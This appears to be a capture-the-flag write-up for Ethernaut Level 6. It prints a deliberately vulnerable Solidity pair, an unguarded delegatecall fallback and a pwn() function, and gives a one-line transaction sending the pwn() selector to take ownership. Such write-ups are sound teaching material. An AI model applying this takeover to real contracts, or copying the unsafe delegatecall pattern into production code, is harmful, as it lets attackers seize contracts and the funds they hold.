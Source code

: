 # Ethernaut - Level 6 - Delegation

Contract code:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

Objectives:
```
The goal of this level is for you to claim ownership of the instance you are given.
```

This contract was very interesting.

Here we have two contracts in the same file: a Delegation contract, and a Delegate contract.


The fallback method of the Delegation contract caught my attention.

Here we have a call to `delegatecall` on the Delegate contract. 

I've learnt that this is a typical design pattern to delegate the execution of dynamic methods to a delegate contract.

From the solidity documentation, we can see that the delegatecall method require a data argument, which is the first 4 bytes of the keccak256 hash of the function signature that we want to call on the Delegate contract.

In this case, we want to call the pwn() function. 

Its keccak256 hash is (only first 4 bytes) 0xdd365b8b.

```
contract.sendTransaction({from: player, to: contract.address, data: "0xdd365b8b"});
//Now we are owner of the contract :)
//You need to submit the instance
```
